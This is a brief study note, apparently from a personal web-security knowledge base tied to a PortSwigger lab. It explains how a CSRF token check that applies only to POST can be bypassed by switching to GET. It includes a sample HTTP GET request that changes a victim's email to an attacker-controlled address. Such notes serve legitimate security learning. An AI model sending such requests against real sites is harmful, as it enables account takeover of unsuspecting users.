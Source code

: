 Parent Links : [[Cross-site request forgery (CSRF)]] > [[Common CSRF vulnerabilities]]     

### Validation of CSRF token depends on request method

Some applications correctly validate the token when the request uses the POST method but skip the validation when the GET method is used.  
In this situation, the attacker can switch to the GET method to bypass the validation and deliver a CSRF attack:  
```http 
GET /email/change?email=pwned@evil-user.net HTTP/1.1  
Host: vulnerable-website.com  
Cookie: session=2yQIDcpia41WrATfjPqvm9tOkDvkMvLm
```

>LAB [CSRF where token validation depends on request method](https://portswigger.net/web-security/csrf/lab-token-validation-depends-on-request-method)